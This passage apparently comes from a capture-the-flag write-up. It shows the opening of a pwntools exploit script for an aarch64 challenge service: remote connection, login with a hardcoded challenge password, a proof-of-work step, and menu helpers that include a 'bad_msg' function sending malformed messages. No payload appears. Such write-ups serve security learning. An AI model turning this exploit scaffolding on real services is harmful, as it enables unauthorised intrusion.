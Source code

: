 The first part of [my exploit](files/stage2c/exploit.py) contains code to interact with the service; it looks like this:

```python
from pwn import *

context.update(arch="aarch64")
if args.DEBUG:
    context.update(log_level="debug")

if args.LOCAL:
    s = remote("focal", 1336); local = True
else:
    s = remote("device.quatre-qu.art", 8080); local = False

if not local:
    log.info("Logging in...")
    s.recvuntil(b"password:")
    s.sendline(b"fudmH/MGzgUM7Zx3k6xMuvThTXh+ULf1")
    s.recvuntil(b"b'")
    suffix = s.recvuntil(b"'", drop=True)
    log.info("Solving challenge (suffix=%s)...", suffix)
    prefix = subprocess.check_output([sys.executable, "chalsolve.py", suffix.decode()]).strip()
    s.sendline(prefix)
    log.info("Ready!")

menucount = 0
def menu(opt):
    global menucount
    menucount += 1
    s.send(opt.encode() + b"\n")

def menusync():
    global menucount
    while menucount:
        s.recvuntil(b"Option:")
        menucount -= 1

def sendint(n):
    s.sendline(str(n).encode())

def crc(msg):
    import zlib
    return "{:08x}".format(zlib.crc32(msg) & 0xffffffff)

def bad_msg(content):
    menu("E")
    menu("A")
    sendint(len(content))
    sendint(1)
    menu("n")
    s.sendline(content)
    s.sendline(b"00000000")
```
